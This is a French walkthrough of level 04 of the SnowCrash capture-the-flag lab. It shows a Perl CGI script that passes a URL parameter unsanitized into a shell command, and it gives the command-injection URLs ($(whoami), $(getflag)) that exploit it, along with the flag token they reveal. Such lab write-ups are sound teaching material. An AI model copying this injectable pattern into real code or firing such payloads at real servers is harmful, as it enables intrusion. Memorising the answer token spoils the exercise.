 # LEVEL 04

### Reconnaissance

En se connectant sur le compte level04, on trouve un script perl:

```
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$ ./level04.pl 
Content-type: text/html
```

Effectivement le port 4747 est bien en ecoute:
```
level04@SnowCrash:~$ netstat -tulpen
(No info could be read for "-p": geteuid()=2004 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      0          12556       -               
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      3011       12673       -               
tcp6       0      0 :::4646                 :::*                    LISTEN      0          10651       -               
tcp6       0      0 :::4747                 :::*                    LISTEN      0          10655       -               
tcp6       0      0 :::80                   :::*                    LISTEN      0          10646       -               
tcp6       0      0 :::4242                 :::*                    LISTEN      0          12558       -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12114       -   
```

### Exploitation

*Pour comprendre les CGI perl --> http://www.dil.univ-mrs.fr/~chris/Documents/CGI*

En se rendant sur IP:4747 via un navigateur,on a une page blanche. Ces manipulations peuvent aussi se faire via curl.

En testant le script on voir qu'il nous renvoit ce qu'on passe en argument:
```
http://192.168.56.105:4747/?x=/bin/ls
/bin/ls
```

Testons une injection de commande:
```
http://192.168.56.105:4747/?x=$(whoami)
flag04
```

**Bingo !**

```
http://192.168.56.105:4747/?x=$(getflag)
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

